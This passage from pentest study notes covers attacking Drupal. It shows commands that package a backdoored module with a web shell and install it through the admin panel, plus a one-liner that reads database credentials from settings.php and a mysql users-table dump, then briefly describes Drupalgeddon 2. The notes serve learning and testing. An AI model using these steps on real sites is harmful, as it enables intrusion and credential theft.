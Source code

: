```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```

* Assuming we have **administrative access** to the website, click on **`Manage`** and then **`Extend`** on the sidebar. Next, click on the **`+ Install new module`** button, and we will be taken to the install page, such as `http://drupal-site.local/admin/modules/install` Browse to the backdoored Captcha archive and click **`Install`**.
* Once the installation succeeds, browse to **`/modules/captcha/shell.php`** to execute commands.

#### Post Exploitation

#### Read settings.php

```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```

#### Dump users from DB

```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```

### \[CVE-2018-7600] Drupalgeddon 2

[https://ine.com/blog/cve-2018-7600-drupalgeddon-2](https://ine.com/blog/cve-2018-7600-drupalgeddon-2)

In late March 2018, a critical vulnerability was uncovered in Drupal CMS. **Drupal before 7.58, 8.x before 8.3.9, 8.4.x before 8.4.6, and 8.5.x before 8.5.1** versions were affected by this vulnerability.

It allows remote attackers to execute arbitrary code because of an issue affecting multiple subsystems with default or standard module configurations.

A lot of PoC is available to exploit this vulnerability.

#### References (tranks to all):

[https://blog.syselement.com/ine/courses/ejpt](https://blog.syselement.com/ine/courses/ejpt)

[https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal)

[https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)
